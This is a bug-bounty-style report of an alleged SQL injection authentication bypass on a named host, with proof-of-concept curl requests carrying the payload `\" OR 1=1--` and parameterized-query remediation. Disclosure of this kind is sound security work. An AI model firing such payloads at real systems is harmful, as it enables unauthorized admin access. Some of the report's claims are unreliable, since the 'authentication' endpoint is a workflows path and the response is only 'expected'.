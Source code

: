 ## Summary
- **Severity**: Critical
- **CVSS Score**: 9.8
- **Asset**: Authentication endpoint
- **Impact**: Complete authentication bypass

## Description
The authentication system is vulnerable to SQL injection attacks through the password parameter, allowing unauthorized access to admin accounts.

## Technical Details
The application constructs SQL queries by directly concatenating user input without proper sanitization.

## Proof of Concept

### Step 1: Normal Authentication Attempt
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'
```

### Step 2: SQL Injection Bypass
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'
```

### Expected Response
```json
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

## Impact
- Complete authentication bypass
- Unauthorized admin access
- Potential data breach
- System compromise

## Remediation
Use parameterized queries:
```python
def authenticate_user(username, password):
    cursor.execute(
        "SELECT * FROM users WHERE username = ? AND password = ?",
        (username, password)
    )
```

## References
- OWASP Top 10: A03:2021 – Injection
- CWE-89: Improper Neutralization of Special Elements
